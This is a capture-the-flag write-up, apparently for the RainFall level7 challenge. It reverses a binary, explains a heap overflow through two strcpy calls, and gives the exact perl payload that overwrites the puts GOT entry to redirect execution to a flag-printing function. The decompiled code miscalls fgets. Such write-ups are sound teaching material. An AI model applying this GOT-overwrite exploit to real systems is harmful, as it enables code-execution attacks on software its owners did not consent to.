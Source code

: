 # Solution

Here is the reverse binary representation but in C


```c
char    c[68];

void    m(void)
{
    printf("%s - %d\n", c, (int)time(0));
}

int main(int ac, char **av)
{
    int *a;
    int *b;
    
    a = malloc(8);
    a[0] = 1;
    a[1] = (int)malloc(8);

    b = malloc(8);
    b[0] = 2;
    b[1] = (int)malloc(8);

    strcpy((char *)a[1], av[1]);
    strcpy((char *)b[1], av[2]);

    fgets(c, 68, "/home/user/level8/.pass", "r");

    puts("~~");

    return (0);
}
```

So we see two call to strcpy this function can lead to an overflow which here will be the case,
we also see multiple call of malloc so this will be an heap overflow.

If we take a closer look in gdb and try to do some dynamic binary analysis we will find one thing that is interesting.

Let's break before the first malloc first.

```sh
gef➤ b *0x08048532
```

If we look at the address return by malloc after passing through all the malloc we will find our exploit pretty easily.Jk

Here a quick look at the address of the first follow by the 20 address

```sh
gef➤  x/20wx 0x0804a1a0
0x804a1a0:      0x00000001      0x0804a1b0      0x00000000      0x00000011
0x804a1b0:      0x00000000      0x00000000      0x00000000      0x00000011
0x804a1c0:      0x00000002      0x0804a1d0      0x00000000      0x00000011
0x804a1d0:      0x00000000      0x00000000      0x00000000      0x00021e29
0x804a1e0:      0x00000000      0x00000000      0x00000000      0x00000000
```

We can see two information that are very interesting first that when we do this line:

```c
strcpy((char *)a[1], av[1]);
```

we are writing in `0x0804a1b0` address and if you look just under this address you can see that we can access,
the second pointer `b` and that we can overwrite the address that you will use to write data in,
which here by default is `0x0804a1d0`.

So the exploit here will be to find the entry of the GOT of `puts` and then overwrite that entry by the function
`m` which will drop the flag for us since it's stored in c buffer which is a global variable,
so when `puts` will be called it will not call the libc function `puts` but the function `m` instead.

But before creating the payload we need to find the address of the entry of the GOT (Global Offset Table) of `puts`,
to do so we will use readelf -r which will output the relocation table, which is the execution view (runtime) of the binary when the function will be replace (relocated) by another shared object through the dynamic linker.
This will give me the exact address of the `puts` entry in the .got.plt section.

```sh
level7@RainFall:~$ readelf -r ./level7 

Relocation section '.rel.dyn' at offset 0x31c contains 1 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049904  00000706 R_386_GLOB_DAT    00000000   __gmon_start__

Relocation section '.rel.plt' at offset 0x324 contains 9 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049914  00000107 R_386_JUMP_SLOT   00000000   printf
08049918  00000207 R_386_JUMP_SLOT   00000000   fgets
0804991c  00000307 R_386_JUMP_SLOT   00000000   time
08049920  00000407 R_386_JUMP_SLOT   00000000   strcpy
08049924  00000507 R_386_JUMP_SLOT   00000000   malloc
08049928  00000607 R_386_JUMP_SLOT   00000000   puts
0804992c  00000707 R_386_JUMP_SLOT   00000000   __gmon_start__
08049930  00000807 R_386_JUMP_SLOT   00000000   __libc_start_main
08049934  00000907 R_386_JUMP_SLOT   00000000   fopen
```

So the address of `puts` entry in the GOT will be `0x8049928` now let's fetch the address of `m` pretty simple we can use gdb.

```sh
(gdb) p m
$1 = {<text variable, no debug info>} 0x80484f4 <m>
```

Now let's write the exploit we need to pad `av[1]` with enough byte to hit the address of `b[1]` to overwrite it with,
`puts` entry in the GOT and overwrite it to the address of `m` so that `puts` is not called but `m` instead.


```sh
level7@RainFall:~$ ./level7 $(perl -e 'print "A"x20 . "(\x99\x04\x08"') $(perl -e 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1727366736
```

We have the flag.
